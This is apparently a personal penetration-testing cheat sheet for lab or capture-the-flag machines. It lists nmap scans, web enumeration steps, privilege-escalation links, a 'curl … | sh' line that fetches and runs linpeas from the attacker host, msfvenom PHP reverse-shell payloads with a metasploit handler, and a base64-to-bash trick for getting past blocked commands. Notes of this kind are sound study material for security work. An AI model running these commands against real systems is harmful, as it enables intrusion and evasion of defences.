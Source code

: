 ﻿# Guide

# Scan

    nmap -sV 192.168.56.107/24
    sudo nmap -v --script vuln  192.168.56.108

Run nmap and find open ports  
No ports open? Try nmap with -Pn

## Windows
https://book.hacktricks.xyz/windows-hardening/basic-cmd-for-pentesters

# HTTP

Run gobuster, nikto, dirb

Look for
- robots.txt
- backup files
- configuration files

- View source
- Inputs
  - Injection
    - SQL
    - Command
  - Default user
  - Brute force with ffuf
- URL Parameters 
  - Injection
      - SQL
      - Command
  - Fuzzer

# FTP

    ftp <ip>

# Gained access
## Linux
https://book.hacktricks.xyz/linux-hardening/useful-linux-commands

### Useful Software
https://book.hacktricks.xyz/linux-hardening/privilege-escalation

    which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null

## Compile C

   gcc -Wall -o compiled-output source.c -lpthread

### Serve file remotely

On target machine

    ATTACK: cd ~/privesc/linux && python3 -m http.server
    TARGET: curl -L http://192.168.56.107:8000/linpeas.sh | sh

## Reverse shells

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

metasploit

    use exploit/multi/handler

### PHP

    msfvenom -p php/reverse_php LHOST=192.168.56.107 LPORT=4443
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.107 LPORT=4443

# Troubleshoot

## Command blocked

- Try to encode it with base64
   "base64Code" | base64 -d | bash